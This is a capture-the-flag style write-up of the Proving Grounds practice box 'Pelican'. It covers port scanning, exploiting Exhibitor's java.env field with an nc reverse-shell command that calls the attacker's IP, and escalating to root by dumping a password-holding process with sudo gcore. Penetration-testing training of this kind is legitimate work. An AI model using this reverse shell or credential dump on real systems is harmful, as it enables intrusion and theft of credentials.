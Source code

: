 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Executing a `nmap` scan to identify the atack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.126.98
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 04:14 EST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 04:15 (0:00:02 remaining)
Nmap scan report for 192.168.126.98
Host is up (0.025s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp open  http        Jetty 1.0
8081/tcp open  http        nginx 1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.75 seconds
```

## port 139,445 (`smb`)
> No shares available.
{: .prompt-danger }

## port 631 (`cups`)
> No vulnerability found for `cups 2.2`
{: .prompt-danger }

## port 8080 (`jetty`)
Responds with a `404` message.

## port 8081 (`nginx`)
`Exhibitor for ZooKeeperv 1.0` is installed on this web server.

---

# exploitation
## looking for an exploit
```bash
$ searchsploit exhibitor                                                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution                                                                                                                                                            | java/webapps/48654.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
`Exhibitor Web UI 1.7.1 - Remote Code Execution` seems promising.  
Relevant steps to exploit the vulnerability via a browser.  
  
`java/webapps/48654.txt` excerpt
```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

## exploit
### start listener on attacker machine
```bash
$ nc -lvp 8081                                    
listening on [any] 8081 ...
```

### trigger rce
As described in the exploit above set the `java.env` field to the value `$(/bin/nc -e /bin/sh 192.168.49.126 8081 &)`.  
Now commit and wait.

### catch connection from targer
```bash
$ nc -lvp 8081                                    
listening on [any] 8081 ...
192.168.126.98: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.98] 51396
whoami
charles
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
cd /home 
ls
charles
cd charles
ls
local.txt
cat local.txt
2******************************b
```

## privilege escalation

Check which commands we can execute as with `sudo` as user charles.
```bash
charles@pelican:~$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```
`gcore` can be used with super user permissions.
Checking [gtfobins](https://gtfobins.github.io/gtfobins/gcore/#sudo) reveals that `gcore` allows to dump processes.  
The next step is to dump a `root` process which might contain passwords.  

> Unfortunately no user is logged in via `ssh` (this would allow catching the submitted password)
{: .prompt-danger }

Lets have a look which proccesses are running and are executed as `root`.

```bash
charles@pelican:~$ ps -ef | grep root
ps -ef | grep root
root         1     0  0 04:08 ?        00:00:00 /sbin/init
root         2     0  0 04:08 ?        00:00:00 [kthreadd]
root         3     2  0 04:08 ?        00:00:00 [rcu_gp]
...
root       495     1  0 04:08 ?        00:00:00 /usr/bin/password-store
...
```

`/usr/bin/password-store` looks interesting.
{: .prompt-info }

Dump process with `gcore`
```bash
charles@pelican:~$ sudo gcore 495
sudo gcore 495
0x00007f50a9fce6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffccf6689b0, remaining=remaining@entry=0x7ffccf6689b0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.495
[Inferior 1 (process 495) detached]
charles@pelican:~$ strings core.495
strings core.495
CORE
password-store
/usr/bin/password-store 
...
001 Password: root:
ClogKingpinInning731
...
```
> We found `root` credentials: `root:ClogKingpinInning731`!
{: .prompt-info }

```bash
charles@pelican:~$ su root
su root
Password: ClogKingpinInning731

root@pelican:/home/charles#
```

> `root` access!
{: .prompt-info }

## second flag
```bash
root@pelican:/home/charles# cd /root
cd /root
root@pelican:~# ls
ls
Desktop    Downloads  Pictures   Public     Videos
Documents  Music      proof.txt  Templates
root@pelican:~# cat proof.txt
cat proof.txt
f******************************8
```

Pwned! <@:-)
